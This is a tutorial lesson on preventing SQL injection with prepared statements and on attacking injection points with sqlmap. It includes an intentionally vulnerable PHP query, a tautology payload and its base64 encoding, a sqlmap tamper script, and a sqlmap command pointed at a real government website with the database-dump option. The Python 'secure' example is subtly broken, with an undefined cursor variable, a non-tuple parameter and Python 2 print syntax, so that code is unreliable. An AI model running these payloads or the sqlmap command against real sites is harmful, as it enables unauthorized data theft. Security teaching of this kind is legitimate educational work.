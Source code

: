 # PREVENTION AND SQLMAP - LESSON 05

## 'SQLI PREVENTION

We learned how to exploit an SQL injection, but how can we prevent it from
happening when we're programming?
The answer is simple and effective: prepared statements, libraries and ORM.
We are in 2019 and the query-wheel was invented long time ago, there is no
need to reinvent it again.

### What is a prepared statement
A prepared statement (a.k.a parameterized statement) is a feature to execute to
avoid code injections and perform similar statements repeatedly with high
efficiency.
The SQL statement is used in form of template and at each execution some
constant values are replaced with variables.
The typical flow is as follows:
1. Prepare: the app creates the SQL template with certain values, called
'parameters', 'placeholders' or 'bind variables'.
2. The DBMS parses, optimizes and translates the statement without executing it.
3. Execute: the app replace (or binds) the parameters with real values and
executes the statement.

In this way the DBMS knows what is a statement and what is a parameter and it is
impossible to trick it to get a parameter as a statement.


#### PHP PDO Example
```php
  // Database connection
  $conn = new PDO("mysql:dbname=mysql", "root");
  // Prepare the statement as a query template
  $stmt = $conn->prepare("SELECT * FROM pages WHERE id = ?");
  // Declare parameters
  $params = array(11);
  // Bind parameters to query template and execute it
  $stmt->execute($params);
  // Show results
  echo $stmt->fetch()[1];
```

#### PHP ORM Example

```php
  $capsule = new Capsule;
  $capsule->addConnection([
    'driver'    => 'mysql',
    'host'      => 'db',
    'database'  => 'sqli_chall4_0',
    'username'  => 'chall4_0',
    'password'  => 'random_password'
  ]);
  $result = $capsule->table('memes')->where('id', '=', $_GET['id'])->first();
  echo $result->title;
```

#### Node.js Example

```js
const mysql = require('mysql2');

// create the connection to database
const connection = mysql.createConnection({
  host: 'localhost',
  user: 'root',
  database: 'test'
});

// execute will internally call prepare and query
connection.execute(
  'SELECT * FROM `memes` WHERE `id` = ? AND `category` > ?',
  [51, 'cybersec'],
  function(err, results, fields) {
    console.log(results); // results contains rows returned by server
  }
);
```

#### Python Example

```python
import mysql.connector
connection = mysql.connector.connect(host='localhost',
                             database='memes',
                             user='memes',
                             password='password1')

cursor = connection.cursor(prepared=True)
prepstmt = "SELECT id, title FROM memes WHERE id = %s"
cur.execute(prepstmt, (15))
for row in cur:
  print row['title']
```

## 'SQLMAP
### What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of
detecting and exploiting an SQL injection.

- Supports MySQL, Oracle, PostgreSQL, MSSQL, Microsoft Access, SQLite and many
others
- Supports six techniques: boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.
- Automatically enumerates user, password hashes, databases, roles, privileges,
tables and columns.
- Supports database dumps
- Can download and upload files
- Can automatically get RCE
- Supports other cool features

### Usage examples

<iframe src="https://asciinema.org/a/46601/embed?" id="asciicast-iframe-46601" name="asciicast-iframe-46601" scrolling="no" allowfullscreen="true" style="overflow: hidden; margin: 0px; border: 0px; display: inline-block; width: 662px; float: none; visibility: visible; height: 514px;"></iframe>

### Sqlmap tamper scripts
sqlmap can be easily extended writing sqlmap tamper scripts. This features
allow us to automate an attack that with standard sqlmap is not working.

#### Example
The developer became paranoid when a friend explained him the sql injections.
To avoid it, he implemented a base64 query parser: each parameter must be
decoded with base64 and then can be used for the real query.

```php
$id = base64_decode($_GET['id']);
$sql = "SELECT * FROM pages WHERE id = '" . $id . "'";
$result = $conn->query($sql);
while($row = $result->fetch_array()){
  print_r($row);
}
```

Parameters:
```
$_GET['id'] = 'MTEK' // 'MTEK' is 11 base64-encoded
```
Result:
```sql
SELECT * FROM pages WHERE id = '11';
```
To exploit this SQLi we have to produce the string `' or 1=1 -- -`, but we know
that the `id` parameter will be base64-decoded.
So to exploit the injection we have base64-encode our payload:

```bash
echo -n "'or 1=1 -- -" | base64 # returns J29yIDE9MSAtLSAt
```

So we will pass:
```php
$_GET['id'] = 'J29yIDE9MSAtLSAt';
```

to get this query:
```sql
SELECT * FROM pages WHERE id = '' or 1=1 -- -'
```

If we have to deal with a simple query like this it is OK to do it manually but
imagine to exploit a time-based injection in this way...it's a long travel :)

We can create a simple python script that encodes our payloads and we'll tell
to sqlmap to use it before sending its queries:

```python
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    encoded_payload = base64.b64encode(payload)
    return encoded_payload
```

We save this script in `sqlmap/tamper/b64.py` and then we call sqlmap with the
`-tamper` parameter that will point to our script:

```bash
sqlmap -u "https://www.nsa.gov/news.php?id=MTEK" -tamper="b64.py" -dump
```
In this way every single payload that sqlmap wants to send to the target will
pass through our script and will be encoded in base64.
